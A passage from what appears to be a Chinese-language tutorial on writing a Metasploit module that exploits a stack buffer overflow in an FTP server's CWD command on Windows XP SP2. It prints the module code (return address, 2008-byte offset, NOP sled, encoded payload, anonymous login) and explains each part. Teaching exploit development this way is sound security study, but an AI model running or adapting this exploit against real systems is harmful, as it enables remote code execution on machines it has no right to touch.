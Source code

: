 ```
      'EXITFUNC' => 'process',
      'VERBOSE' => true
     },
  'Payload' =>
    {
      'Space' => 1000,
      'BadChars' => "\x00\xff\x0a\x0d\x20\x40",
    },
  'Platform' => 'win',
  'Targets' =>
  [
  [ 'Windows XP SP2 English',
    {
  'Ret' => 0x71ab9372,
  'Offset' => 2008
    }
  ],
  ],
  'DisclosureDate' => 'May 9 2016',
  'DefaultTarget' => 0))
  register_options(
  [
Opt::RPORT(21),
OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous'])
],self.class)
End

```

我们首先包括了所有必需的库和`/lib/msf/core/exploit`目录中的`ftp.rb`库。接下来，在`initialize`部分中分配所有必要的信息。从利用中收集必要的信息，我们将`Ret`分配为返回地址，偏移为`2008`。我们还将`FTPPASS`选项的值声明为`anonymous`。让我们看看下面的代码部分：

```
def exploit
  c = connect_login
  return unless c
    sploit = rand_text_alpha(target['Offset'])
    sploit << [target.ret].pack('V')
    sploit << make_nops(10)
    sploit << payload.encoded
    send_cmd( ["CWD " + sploit, false] )
    disconnect
  end
end

```

`connect_login`方法将连接到目标并尝试使用我们提供的凭据登录软件。但是等等！我们什么时候提供了凭据？通过包含`FTP`库，模块的`FTPUSER`和`FTPPASS`选项会自动启用。`FTPUSER`的默认值是`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了值为`anonymous`。

接下来，我们使用`rand_text_alpha`生成`2008`的`junk`，使用目标字段中的偏移值，并将其存储在 sploit 变量中。我们还使用`pack（'V'）`函数将目标字段中的`Ret`值以小端格式存储在`sploit`变量中。使用`make_nop`函数连接 NOP，然后连接 shellcode 到`sploit`变量，我们的输入数据已准备好供应。
